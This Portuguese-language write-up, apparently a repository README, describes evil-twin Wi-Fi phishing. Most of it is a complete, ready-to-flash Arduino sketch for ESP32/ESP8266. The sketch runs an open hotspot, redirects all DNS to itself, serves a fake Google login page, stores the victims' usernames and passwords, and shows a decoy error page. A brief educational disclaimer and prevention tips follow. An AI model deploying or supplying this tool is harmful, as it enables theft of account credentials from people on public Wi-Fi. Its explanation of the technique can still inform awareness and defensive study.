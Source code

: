## Ataque de Phishing com Wi-Fi Falso: Uma Análise Técnica

### Introdução

Os ataques de **phishing** são uma das ameaças cibernéticas mais prevalentes na atualidade, visando enganar usuários para obter dados sensíveis, como credenciais de login, informações financeiras e outros dados pessoais. Um tipo sofisticado desse ataque é o **phishing via Wi-Fi falso**, onde um atacante cria uma rede Wi-Fi fraudulenta para capturar informações dos usuários. Este documento descreve um cenário em que um atacante configura um ponto de acesso falso (hotspot), simulando uma rede legítima, e utiliza uma página de login falsa para coletar as credenciais do usuário.

Este tipo de ataque é particularmente perigoso, pois explora a confiança natural dos usuários em redes Wi-Fi públicas e abertas. A seguir, detalharemos a técnica de ataque, seu funcionamento e as implicações de segurança.

### Como Funciona o Ataque de Phishing via Wi-Fi Falso?

O ataque de phishing via Wi-Fi falso consiste em criar um ponto de acesso com um nome (SSID) que imita uma rede legítima, induzindo os usuários a se conectarem. Uma vez conectados, os usuários são redirecionados a uma página de login falsa, que se passa por um serviço legítimo, como o Google. A página coleta as credenciais de login dos usuários, que são então enviadas ao atacante.

Este processo pode ser dividido em várias etapas:

#### 1. Criação do Ponto de Acesso Falso
O primeiro passo do ataque é configurar o ponto de acesso (hotspot) com um SSID que seja confiável ou reconhecível pelos usuários, como "WIFI FREE" ou "Wi-Fi Público". Para isso, é necessário um dispositivo que funcione como um ponto de acesso (geralmente um **ESP32** ou **ESP8266**), que possua capacidade de criar redes sem fio e atuar como servidor DNS e HTTP.

#### 2. Interceptação de Conexões de Rede
Quando um usuário se conecta ao ponto de acesso, o dispositivo configurado como "Wi-Fi falso" redireciona automaticamente a solicitação de DNS para um servidor controlado pelo atacante. Ou seja, quando o usuário tenta acessar qualquer site, a requisição é manipulada para que o usuário seja redirecionado para uma página de login falsa.

#### 3. Exibição da Página de Login Falsa
A página de login imita uma interface de login legítima, como a do Google. O atacante utiliza HTML e CSS para criar uma página visualmente idêntica à página real, a fim de enganar os usuários. A partir do momento em que o usuário insere suas credenciais e as envia, os dados são armazenados no servidor do atacante.

#### 4. Coleta das Credenciais
As credenciais do usuário são armazenadas no servidor do atacante, permitindo-lhe ter acesso a contas e outros dados pessoais do usuário. A coleta dessas credenciais pode ser feita diretamente em variáveis ou armazenada em arquivos de log para posterior análise.

#### 5. Exibição de uma Página de Erro (Opicional)
Após a submissão do formulário, o atacante pode exibir uma página de erro para confundir o usuário e fazer com que ele tente se reconectar à rede, o que reforça a confiança na rede falsa.

### Exemplo de Implementação: Código em Arduino

O código a seguir descreve como criar um ponto de acesso Wi-Fi falso utilizando um dispositivo como o **ESP32** ou **ESP8266**. O ponto de acesso exibe uma página de login falsa, coleta as credenciais do usuário e armazena essas informações.

```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <DNSServer.h>

// Configurações do ponto de acesso falso
const char* ssid = "WIFI FREE";  // Nome da rede falsa
const char* password = "";  // Sem senha

// Configuração do servidor DNS e servidor web
const byte DNS_PORT = 53;  // Porta DNS
IPAddress apIP(192, 168, 4, 1);  // IP da rede falsa
DNSServer dnsServer;  // Servidor DNS
WebServer server(80);  // Servidor web na porta 80

// Array para armazenar os logins
String users[10];  // Capacidade para até 10 credenciais
int userIndex = 0;  // Índice para o próximo login a ser armazenado

// Página de erro
const char* erroPage = R"rawliteral(
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Erro de Rede</title>
    <style>
        body { display: flex; justify-content: center; align-items: center; height: 100vh; background-color: #f1f1f1; font-family: Arial, sans-serif; }
        .error-container { text-align: center; background-color: #ff4d4d; color: #fff; padding: 40px; border-radius: 10px; box-shadow: 0 4px 8px rgba(0, 0, 0, 0.2); }
        h1 { font-size: 30px; margin-bottom: 20px; }
        p { font-size: 18px; margin-top: 0; }
        .retry-button { margin-top: 20px; padding: 10px 20px; font-size: 16px; background-color: #ff6666; border: none; border-radius: 5px; color: #fff; cursor: pointer; }
        .retry-button:hover { background-color: #ff3333; }
    </style>
</head>
<body>
    <div class="error-container">
        <h1>Erro na Rede</h1>
        <p>Ocorreu um erro ao tentar conectar-se à rede.</p>
        <button class="retry-button" onclick="window.location.reload();">Tentar Novamente</button>
    </div>
</body>
</html>
)rawliteral";

// Página de login falsa
const char* loginPage = R"rawliteral(
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Google</title>
    <style>
    body { margin: 0; padding: 0; background-size: cover; font-family: 'Open Sans', sans-serif; }
    .box { position: absolute; top: 50%; left: 50%; transform: translate(-50%, -50%); width: 30rem; padding: 3.5rem; box-sizing: border-box; border: 1px solid #dadce0; }
    .box h2 { margin: 0; text-align: center; color: #202124; font-size: 24px; }
    .box .inputBox { position: relative; }
    .box .inputBox input { width: 93%; padding: 1.3rem 10px; font-size: 1rem; letter-spacing: 0.062rem; margin-bottom: 1.875rem; border: 1px solid #ccc; background: transparent; border-radius: 4px; }
    .box input[type="submit"] { background-color: #1a73e8; color: #fff; padding: 0.625rem 1.25rem; cursor: pointer; border-radius: 0.312rem; font-size: 1rem; float: right; }
    .box input[type="submit"]:hover { background-color: #287ae6; }
    </style>
</head>
<body>
    <div class="box">
        <h2>Entre com sua conta Google</h2>
        <form method="POST" action="/">
            <div class="inputBox">
                <input type="text" name="username" required placeholder="Email ou telefone" />
            </div>
            <div class="inputBox">
                <input type="password" name="password" required placeholder="Senha" />
            </div>
            <input type="submit" value="Entrar" />
        </form>
    </div>
</body>
</html>
)rawliteral";

// Função de configuração do ponto de acesso e DNS
void setup() {
    // Inicializa o ponto de acesso Wi-Fi
    WiFi.softAP(ssid, password);
    WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));
    
    // Inicializa o servidor DNS
    dnsServer.start(DNS_PORT, "*", apIP);
    
    // Define as rotas do servidor web
    server.on("/", HTTP_GET, []() {
        server.send(200, "text/html", loginPage);
    });

    server.on("/", HTTP_POST, []() {
        String username = server.arg("username");
        String password = server.arg("password");
        
        // Armazena as credenciais dos usuários
        if (userIndex < 10) {
            users[userIndex++] = username + " : " + password;
        }
        server.send(200, "text/html", erroPage);
    });
    
    // Inicia o servidor web
    server.begin();
}

void loop() {
    dnsServer.processNextRequest();
    server.handleClient();
}
```

### Considerações de Segurança

O uso de redes Wi-Fi públicas sempre representa um risco à segurança dos

 usuários. Embora este exemplo seja didático e voltado para fins educacionais, é importante destacar que o uso malicioso de técnicas de phishing pode levar a sérias consequências legais. A prática de invadir redes alheias e coletar informações sem consentimento é ilegal e antiética.

### Prevenção e Proteção

1. **Conexão Segura**: Sempre que possível, os usuários devem evitar conectar-se a redes Wi-Fi públicas sem a devida segurança, utilizando redes privadas ou VPNs.
   
2. **Autenticação de Dois Fatores**: Ativar a autenticação de dois fatores (2FA) em serviços como Google, Facebook e outros pode fornecer uma camada extra de segurança, tornando as credenciais roubadas inúteis para os atacantes.

3. **Educação em Segurança Cibernética**: A conscientização dos usuários sobre os riscos de redes Wi-Fi públicas e sobre como verificar a autenticidade de páginas de login pode ser um passo importante na prevenção desses ataques.

### Conclusão

O phishing via Wi-Fi falso é uma técnica sofisticada que explora a confiança do usuário em redes públicas. Embora a implementação apresentada seja para fins educacionais, ela evidencia a necessidade de práticas rigorosas de segurança em redes sem fio e de vigilância constante para evitar ataques desse tipo. Em um cenário de ameaças cibernéticas crescentes, é essencial estar preparado para identificar e mitigar tais riscos.

